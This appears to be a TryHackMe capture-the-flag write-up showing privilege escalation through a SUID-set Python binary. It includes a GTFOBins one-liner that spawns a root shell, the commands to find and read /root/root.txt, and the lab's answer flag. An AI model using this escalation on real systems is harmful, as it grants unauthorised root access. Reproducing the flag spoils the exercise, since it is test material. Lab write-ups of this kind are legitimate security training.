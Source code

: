 ```
/usr/bin/python
```
## Question
> Find a form to escalate your privileges.
- We will be using the `python` utility to escalate our privilege since it already has the SUID bit set.
- But before we do that, we need to check out GTFObins for a shell script.
![[10 3.png]]
- We have to use the selected script with the `/usr/bin/python` interpreter.
```
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```
- We have successfully escalated our privilege to `root`.
## Question
> root.txt
- Let's find the `root.txt` file.
```
find / -name root.txt 2>/dev/null 
/root/root.txt
```
- All we have to do now is `cat` the file.
```
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
## Answer
```
THM{pr1v1l3g3_3sc4l4t10n}
```